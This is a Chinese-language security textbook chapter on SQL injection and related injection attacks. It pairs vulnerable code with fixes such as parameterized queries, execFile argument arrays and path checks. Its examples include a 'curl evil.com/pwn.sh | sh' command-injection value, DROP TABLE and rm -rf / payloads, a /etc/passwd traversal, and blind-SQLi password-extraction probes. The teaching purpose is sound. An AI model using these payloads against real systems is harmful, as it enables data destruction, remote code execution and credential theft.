

# 3.1 SQL 注入與注入類攻擊的通解

## 歷史上最賺錢的漏洞

SQLi（1998 年披露、1999 年 rain.forest.puppy 系統化）至今仍是資料外洩的第一大殺手：直接讀寫資料庫 —— 使用者表、訂單、卡號。

## 根源：字串拼接讓資料變成程式碼

```javascript
// ❌ 萬惡之源
const sql = "SELECT * FROM users WHERE name = '" + name + "'";
```

攻擊者輸入 `name = ' OR '1'='1` →

```sql
SELECT * FROM users WHERE name = '' OR '1'='1'   -- 永真，回傳全表！
```

再看升級版：`'; DROP TABLE users; --`

```sql
SELECT * FROM users WHERE name = ''; DROP TABLE users; --'
```

**資料（輸入）與程式（SQL 語法）之間的邊界被字串拼接抹掉了** —— 與 XSS 完全同構（2.1），只是邊界換成 SQL 直譯器。

## 通解：參數化查詢（Prepared Statement）

```javascript
// ✅ 資料與語法分離
db.query("SELECT * FROM users WHERE name = ?", [name]);
```

參數化的本質：**先送語法模板，再送資料** —— 資料在資料庫層被嚴格當作「值」，永不進入語法解析：



前書 3.3 節 SQLx 的 `query_as!("... $1", id)` 正是編譯期參數化 + 型別檢查 —— **框架級預設安全**再次出場。

### ORM 是不是自動安全？

```python
# Django ORM：參數化 → 安全
User.objects.filter(name=user_input)

# 但 ORM 也能寫出注入
User.objects.raw(f"SELECT * FROM users WHERE name = '{user_input}'")  # ❌
```

工具不提供安全，**正確用法提供安全**。ORM 的價值是讓安全用法成為阻力最小的路。

## 注入家族：同一個病，不同器官

| 注入 | 語法邊界 | Payload 例 | 通解 |
|------|---------|-----------|------|
| SQLi | SQL | `' OR 1=1 --` | 參數化 |
| XSS | HTML/JS | `<script>` | 編碼/框架（2.1） |
| 命令注入 | shell | `; rm -rf /` | 避免呼叫 shell / 參數陣列 |
| 路徑穿越 | 檔案系統 | `../../etc/passwd` | 白名單路徑 + resolve 後驗證 |
| LDAP/NoSQL 注入 | 查詢語法 | `{$gt: ""}` | 參數化/白名單 |

### 命令注入

```javascript
// ❌
exec(`convert ${filename}.png out.jpg`);
// filename = "a; curl evil.com/pwn.sh | sh" → 任意指令

// ✅ 不經過 shell：execFile 以參數陣列呼叫
execFile('convert', [`${filename}.png`, 'out.jpg']);
```

### 路徑穿越

```javascript
// ❌
fs.readFile(`/uploads/${req.params.name}`);
// name = "../../etc/passwd"

// ✅ resolve 後驗證仍在上傳目錄內
const p = path.resolve('/uploads', req.params.name);
if (!p.startsWith('/uploads/')) throw new Forbidden();
```

**共同模式**：所有注入防禦都是「讓不可信資料無法觸及語法層」：

$$\text{通解} = \text{參數化} \;\lor\; \text{白名單} \;\lor\; \text{專用 API（不經字串組裝）}$$

## 防禦縱深

1. **參數化**（結構性消滅）
2. **最小權限 DB 帳號**（應用帳號只給必要表+CRUD，禁 DROP/FILE）→ 即使注入也無法刪庫
3. **WAF**（邊緣擋常見 payload）→ 只能當第 3 層，編碼繞過層出不窮
4. **錯誤不外洩**（前書 2.4）→ 盲注（blind SQLi）靠錯誤訊息逐字元猜測，關掉訊息=斷其耳目

### 盲注（Blind SQLi）：沒有回顯也能打

```
?id=1 AND (SELECT SUBSTR(password,1,1) FROM users WHERE id=1)='a'
→ 頁面正常 = 猜對；異常 = 猜錯 → 二分法逐字元提取
```

即使頁面不顯示錯誤，**時間盲注**（`AND SLEEP(5)`）也能靠回應延遲傳遞資訊。教訓：**不要以為「看不到錯誤」就沒有注入**，參數化才是唯一確解。

## 習題

1. 用 SQLx 重寫一段字串拼接查詢，並解釋 `$1` 綁定如何讓注入語法失效。
2. 盲注為什麼在「參數化普及」後仍值得學？舉一個現代變體（NoSQL）。
3. 檔案上傳功能的路徑穿越與命令注入各出現在哪一段？畫出資料流並標註防禦點。
